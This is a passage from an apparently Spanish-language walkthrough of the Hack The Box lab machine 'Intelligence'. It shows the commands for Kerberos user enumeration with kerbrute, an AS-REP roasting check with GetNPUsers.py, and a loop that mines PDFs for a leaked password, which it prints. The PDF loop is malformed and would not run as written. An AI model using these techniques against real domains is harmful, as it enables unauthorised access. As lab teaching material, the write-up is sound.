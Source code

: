 ```bash
kerbrute -dc-ip 10.10.10.248 -domain intelligence.htb -users users.txt
```

{:.note}
Verificamos si los usuarios son validos.

![list](/assets/img/intelligence/Kali-2022-09-10-00-35-11.png){:.lead width="800" height="100" loading="lazy"}

```bash
GetNPUsers.py intelligence.htb/ -no-pass -userfile users.txt
```

{:.note}
Pero ningun usuario es ASREPRoasteable.

Por lo que haciendo cabeza si en dos pdf hay nombres de usuario quein no nos dice que en

30 no haycredeciales o informacion valiosa.

```bash
for file in $(ls);do echo $file;done | grep -v "users" | while read filename; do pdftotext "analizando el archivo $filename"; done
```


{:.note}
Estamos iterando en cada pdf y trasformadolos a txt para luego encontrar una pass 

que es `NewIntelligenceCorpUser9876`.

Una ves obtenida la pass y como sabemos que tenemos usuarios validis que verificamos con 

kerbrute hacemos lo siguite para comprovar cual usuario va con esta contraseña.

